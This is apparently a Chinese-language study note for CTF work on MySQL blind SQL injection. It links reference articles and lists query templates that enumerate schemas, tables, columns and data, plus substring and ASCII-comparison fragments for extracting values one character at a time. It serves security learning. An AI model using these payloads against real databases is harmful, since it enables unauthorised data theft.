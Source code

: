 # 文章
[一文搞定MySQL盲注 | 颖奇L’Amore](https://www.gem-love.com/2022/01/26/%E4%B8%80%E6%96%87%E6%90%9E%E5%AE%9AMySQL%E7%9B%B2%E6%B3%A8/#undefined)<br />[CTF中几种通用的sql盲注手法和注入的一些tips - 安全客，安全资讯平台](https://www.anquanke.com/post/id/160584#h3-13)<br />[mysql 延时注入新思路 - 先知社区](https://xz.aliyun.com/t/2288)<br />[一文搞定MySQL盲注 _ 颖奇L'Amore.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1690108061000-ebdfad88-0f99-43e4-8e52-4e5f6c77da93.pdf)
# SELECT 语句
```python
SELECT = 'select database()' # 数据库
SELECT = 'select version()'
SELECT = 'select user()'
SELECT = 'select group_concat(schema_name) from information_schema.schemata'
SELECT = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
SELECT = 'select group_concat(column_name) from information_schema.columns where table_name="TABLE_NAME"'
SELECT = 'select group_concat(COIUMN_NAME) from TABLE_NAME'
```
# 字符串截取方法
### substr(string, start, length)
```plsql
select substr(SELECT, {}, 1)
```
### mid(string, start, length)
```plsql
select mid(SELECT, {}, 1)
```
### right(string, length)
表示截取字符串的从右往左的几位子字符串<br />技巧：和`ascii` / `ord`函数一起使用，ascii()或ord()返回传入字符串的首字母的ASCII码。ascii(right(所截取字符串, x))会返回从右往左数的第x位的ASCII码
```plsql
select ascii(right(SELECT, {}))
select ord(right(SELECT, {}))
```
### left(string, length)
表示截取字符串的从左往右的几位子字符串<br />技巧：和`reverse()` + `ascii()` / `ord()`一起使用。ascii(reverse(left(所截取字符串, x)))会返回从左往右数的第x位的ASCII码
```plsql
select ascii(reverse(left(SELECT, {})))
select ord(reverse(left(SELECT, {})))
```
### regexp
用来判断一个字符串是否匹配一个正则表达式。这个函数兼容了截取与比较
```plsql
select binary SELECT regexp <正则>
```